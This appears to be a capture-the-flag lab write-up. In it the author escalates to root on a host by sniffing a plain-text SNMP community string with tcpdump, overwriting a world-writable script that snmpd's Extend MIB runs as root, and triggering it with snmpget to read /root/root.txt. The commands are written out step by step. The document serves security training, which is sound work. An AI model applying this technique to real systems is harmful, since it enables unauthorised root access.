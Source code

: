 # Keep it simple

## Question 1
Start the machine, connect to 10.10.X.X using SSH an log in.


## Question 2
First off lets see if there is anything interesting in the home directory;

    [monitor@simple ~]$ ls
    todo.txt

Better read this todo file;

    [monitor@simple ~]$ cat todo.txt
    The simple service should be running already!

    To do list:

    1 - Check the disk monitoring is working e.g

    'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk"'
    
    2 - Also confirm with Dev team if they want camel, snake or kebab case this week (lol) and standardise the OID formats!


Ok so seems like some network monitoring development is underway on this host and a service called 'simple' is up and running.

Lets look into that service first;

    [monitor@simple ~]$ systemctl | grep simple
    simple.service                                                                           loaded active running   simple.ser                                       vice

    [monitor@simple ~]$ systemctl status simple.service
    ● simple.service
       Loaded: loaded (/etc/systemd/system/simple.service; enabled; vendor preset: disabled)
       Active: active (running) since Fri 2023-12-01 12:09:00 GMT; 13min ago
     Main PID: 646 (simple.server.s)
       CGroup: /system.slice/simple.service
               ├─ 646 /bin/bash /usr/local/bin/simple.server.sh
               └─1828 sleep 5

So, a script is being run but we have no idea what that is doing;

    [monitor@simple ~]$ cat /usr/local/bin/simple.server.sh
    cat: /usr/local/bin/simple.server.sh: Permission denied


Next lets look at the two tasks in the "to do" list

Looking at the hint in todo list task 1 we can also see that SNMP is being used and in particular the Extend MIB which "defines a framework for scripted extensions for the Net-SNMP agent" (quote from http://www.net-snmp.org/docs/mibs/)

Time to research the SNMP Extend MIB and find out what it's all about.  Here is a great primer from RedHat;

https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/deployment_guide/sect-system_monitoring_tools-net-snmp-extending

We have now learned that as well as reporting on the usual system and networking metrics SNMP can also be extentded to run custom scripts!

Looking at todo list task 2 we can get the idea that script names used here have not been standardised.  Don't know what that means but we can keep this in mind for later.

As we now know from todo list task 1 & our own research we now know the answer to task 2!

## Question 3
How to get that root flag?

Let's see if an SNMP server is running on our host;

    [monitor@simple ~]$ ss -tunnelp
    Netid  State      Recv-Q Send-Q                                 Local Address:Port                                                Peer Address:Port
    udp    UNCONN     0      0                                                  *:68                                                             *:*                   ino:17694 sk:ffff8f6d7a381980 <->
    udp    UNCONN     0      0                                          127.0.0.1:161                                                            *:*                   ino:18752 sk:ffff8f6d7a381dc0 <->
    udp    UNCONN     0      0                                          127.0.0.1:323                                                            *:*                   ino:15366 sk:ffff8f6d7a380cc0 <->
    udp    UNCONN     0      0                                              [::1]:323                                                         [::]:*                   ino:15367 sk:ffff8f6d779fc000 v6only:1 <->
    tcp    LISTEN     0      128                                                *:22                                                             *:*                   ino:18595 sk:ffff8f6d77b8c000 <->
    tcp    LISTEN     0      128                                        127.0.0.1:199                                                            *:*                   ino:18753 sk:ffff8f6d77b8c7c0 <->
    tcp    LISTEN     0      128                                             [::]:22                                                          [::]:*                   ino:18604 sk:ffff8f6d77b90000 v6only:1 <->

Yep!  We can also see that SNMP is running as root - oops :-D

    [monitor@simple ~]$ ps -ef | grep snmp
    root      1024     1  0 12:09 ?        00:00:01 /usr/sbin/snmpd -LS0-6d -f

Can't read the SNMP conf file :-(

    [monitor@simple ~]$ cat /etc/snmp/snmpd.conf
    cat: /etc/snmp/snmpd.conf: Permission denied


Lets see if we can see any SNMP traffic hitting our host - time to fire up tcpdump! We can use "-i any" switch to pick up traffic from all available interfaces;

    [monitor@simple ~]$ tcpdump -nn udp and port 161 -i any 
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    12:29:57.498885 IP 127.0.0.1.43754 > 127.0.0.1.161:  C="******" GetRequest(28)  .1.3.6.1.2.1.1.5.0
    12:29:57.503196 IP 127.0.0.1.161 > 127.0.0.1.43754:  C="******" GetResponse(34)  .1.3.6.1.2.1.1.5.0="simple"
    12:30:02.524673 IP 127.0.0.1.56841 > 127.0.0.1.161:  C="******" GetRequest(28)  .1.3.6.1.2.1.1.5.0
    3 packets captured
    6 packets received by filter
    0 packets dropped by kernel

Yay! We can see SNMP requests and replies on the loopback interface! Looks like an older version (i.e. 1 or 2c) is being used to we can see the SNMP data - including the community
in plain text!

So let's recap what we now know;

* SNMP server is running as root on the loopback interface
* The SNMP community is "******"
* Some dev work is ongoing using the SNMP Extend MIB - which we now know from research can run shell scripts or other external programs
* The todo file tells us a script called checkDisk is under development

Let's try and run checkDisk!

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk" = STRING: 42%

Seems easy enough, lets find that script!

Lets start looking for file called something like "checkDisk"

    [monitor@simple ~]$ find / -type f -name checkDisk* 2>/dev/null
    [monitor@simple ~]$

Nothing!

Let's be less specific;

    find / -type f -name check* 2>/dev/null" 

The /usr/local/bin/monitoring/ folder looks right.  

Time for a closer look;

    [monitor@simple ~]$ ls -al /usr/local/bin/monitoring/
    total 20
    drwxr-xr-x. 2 root root 116 Sep  6 12:44 .
    drwxr-xr-x. 3 root root  48 Dec  1 10:04 ..
    -rw-r--r--. 1 root root  11 Sep  6 08:24 check_disk.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:39 check_interface.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:40 check_mem.sh
    -rw-r--rw-. 1 root root  12 Sep  6 12:44 check_temp.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:39 check_users.sh

Interesting - one of these files we can edit!!!  I wonder if we can run check_temp.sh from SNMP (as root!) and spawn a shell or run commands?

Lets try running it first in the same fashion as checkDisk;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkTemp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkTemp" = No Such Instance currently exists at this OID

No dice!  

Recall from task 2 in the todo file that there was some inconsistency in OID formats and 3 formats mentioned;

1. camelCase   <------ worked Ok for check_disk.sh but not for check_temp.sh
2. snake_case
3. kebab-case

Let's try snake case;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check_temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check_temp" = No Such Instance currently exists at this OID

Thats not it. Let's try kebab case;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp" = STRING: 37.5

We have found a way to run check_temp.sh so let's use it to grab the root flag!

    [monitor@simple ~]$ echo "cat /root/root.txt" > /usr/local/bin/monitoring/check_temp.sh
    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp" = STRING: *************************



Thanks for reading!
